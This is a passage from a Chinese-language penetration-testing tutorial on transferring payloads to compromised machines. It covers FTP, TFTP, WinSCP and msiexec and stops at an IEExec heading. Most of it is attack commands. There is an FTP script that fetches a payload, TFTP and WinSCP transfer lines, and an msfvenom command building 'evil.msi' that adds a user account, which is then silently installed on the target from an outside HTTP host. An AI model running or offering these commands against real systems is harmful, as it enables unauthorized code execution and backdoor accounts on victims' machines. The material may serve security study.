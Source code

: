 


### 6.FTP

一般情况下，攻击者使用FTP上传文件需要很多交互的步骤，下面这个 bash脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```bash
ftp 127.0.0.1 	# 这里换成我们装有payload的服务器的IP地址
username # 输入用户名
password 	# 密码
get file 	# 下载的payload文件
exit 
```





### 7.TFTP

用来下载远程文件的最简单的网络协议，它基于`UDP`协议而实现

tftp32服务端下载地址：http://tftpd32.jounin.net/tftpd32_download.html

```bash
tftp -i <你的payload的IP> get <要下载payload文件> <存放目标机器的目录位置>
```



### 8.WinScp

WinSCP是一个Windows环境下使用SSH的开源图形化SFTP客户端。

```bash
#上传 
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "put D:\1.txt /tmp/" "exit" /log=log_file.txt 

#下载 
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "get /tmp D:\test\app\" "exit" /log=log_file.tx
```



### 9.msiexec

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

```bash
#在攻击机器上生成msi包 
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi 

#在目标机器上远程执行（直接写payload的ip和文件） 
msiexec /q /i http://192.168.28.128/evil.msi
```



### 10.IEExec
